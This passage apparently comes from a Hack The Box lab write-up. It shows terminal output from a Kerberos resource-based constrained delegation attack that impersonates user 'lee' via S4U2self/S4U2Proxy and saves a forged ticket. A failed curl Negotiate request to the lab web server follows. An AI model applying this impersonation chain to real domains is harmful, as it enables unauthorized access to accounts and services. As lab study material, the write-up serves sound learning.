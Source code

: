 ```
[+] Trying to connect to KDC at 192.168.3.203
[+] Trying to connect to KDC at 192.168.3.203
[*] Impersonating lee
[+] AUTHENTICATOR
...
[+] S4UByteArray
...
[+] CheckSum
...
[+] Final TGS
...
[*]     Requesting S4U2self
[+] Trying to connect to KDC at 192.168.3.203
[+] TGS_REP
...
[*]     Requesting S4U2Proxy
[+] Trying to connect to KDC at 192.168.3.203
[*] Saving ticket in lee.ccache

root@kali:$ apt install krb5-user krb5-config -y
root@kali:$ dpkg-reconfigure krb5-config
root@kali:$ export KRB5CCNAME=`pwd`/admin.ccache
root@kali:$ klist
Ticket cache: FILE:/root/tools/rbcd-attack/lee.ccache
Default principal: lee@htb.local
Valid starting       Expires              Service principal
07/02/2020 20:43:52  07/03/2020 06:43:41  http/WEB.htb.local@HTB.LOCAL
        renew until 07/03/2020 20:41:40
```

However, I was not able to load the protected web page as curl kept saying `Matching credential not found`:

```
root@kali:$ proxychains4 -q curl --negotiate -u: http://web.htb.local -v
*   Trying 192.168.3.202:80...
* TCP_NODELAY set
* Connected to web.htb.local (127.0.0.1) port 80 (#0)
* gss_init_sec_context() failed: Matching credential not found (filename: /root/tools/rbcd-attack/lee.ccache).
* Server auth using Negotiate with user ''
> GET / HTTP/1.1
> Host: web.htb.local
> User-Agent: curl/7.68.0
> Accept: */*
>
* Mark bundle as not supporting multiuse
< HTTP/1.1 401 Unauthorized
< Content-Type: text/html
< Server: Microsoft-IIS/8.5
* gss_init_sec_context() failed: Matching credential not found (filename: /root/tools/rbcd-attack/lee.ccache).
< WWW-Authenticate: Negotiate
```
